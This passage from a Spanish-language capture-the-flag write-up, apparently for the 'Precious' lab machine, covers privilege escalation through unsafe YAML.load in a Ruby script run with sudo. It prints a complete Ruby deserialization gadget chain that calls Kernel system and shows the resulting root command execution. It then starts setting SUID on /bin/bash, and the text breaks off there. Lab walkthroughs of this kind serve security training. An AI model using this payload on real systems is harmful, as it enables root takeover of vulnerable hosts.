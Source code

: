 ```bash

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
El YAML.load() está cargando un archivo llamado dependencies.yml.
`YAML.load(File.read("dependencies.yml"))`
Podemos aprovecharnos de esto con la información del siguiente <a href='https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/'>link</a>.

Ahora crearemos un archivo llamado dependencies.yml dentro del directorio home de henry con el siguiente contenido.
```bash
henry@precious:~$ ls -la
total 24
drwxr-xr-x 2 henry henry 4096 Oct 26  2022 .
drwxr-xr-x 4 root  root  4096 Oct 26  2022 ..
lrwxrwxrwx 1 root  root     9 Sep 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 henry henry  220 Sep 26  2022 .bash_logout
-rw-r--r-- 1 henry henry 3526 Sep 26  2022 .bashrc
-rw-r--r-- 1 henry henry  807 Sep 26  2022 .profile
-rw-r----- 1 root  henry   33 Jun  3 11:07 user.txt
henry@precious:~$ nano dependencies.yml
henry@precious:~$ cat dependencies.yml
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: whoami
          method_id: :resolve 
```
En el git\_set se colocara el comando a ejecutar.
`git_set: whoami`
```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
root
```
Ahora trataremos de darle permisos SUID al binario /bin/bash
```bash
henry@precious:~$ nano dependencies.yml 
henry@precious:~$ cat dependencies.yml
---
```